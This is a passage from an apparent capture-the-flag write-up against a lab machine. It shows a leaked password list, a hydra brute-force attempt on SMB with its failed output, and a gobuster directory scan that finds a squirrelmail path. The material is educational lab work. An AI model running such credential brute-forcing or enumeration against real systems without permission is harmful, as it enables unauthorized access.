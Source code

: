 ```bash
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

In the `log1.txt` we can see what looks like to be a potential password credentials.

So i tried to brute-force the `Samba` service with this wordlist but it didn't work either with user `miles` & `milesdyson`.

```bash
❯ hydra -l milesdyson -P ../content/log1.txt smb://10.10.201.231
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-10 00:03:56
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 31 login tries (l:1/p:31), ~31 tries per task
[DATA] attacking smb://10.10.201.231:445/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-10 00:04:05
```

So, i suppose that we might can use them in other service, i wanted to check if there is any hidden folder under the `Apache` service.

---
## Port 80 Exploitation

I started using `gobuster` in order to detect any hidden folder.

```bash
❯ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.201.231 -t 64 --follow-redirect
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.201.231
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/admin                (Status: 403) [Size: 278]
/ai                   (Status: 403) [Size: 278]
/config               (Status: 403) [Size: 278]
/css                  (Status: 403) [Size: 278]
/js                   (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
/squirrelmail         (Status: 200) [Size: 2912]
Progress: 20478 / 20479 (100.00%)
===============================================================
Finished
===============================================================
```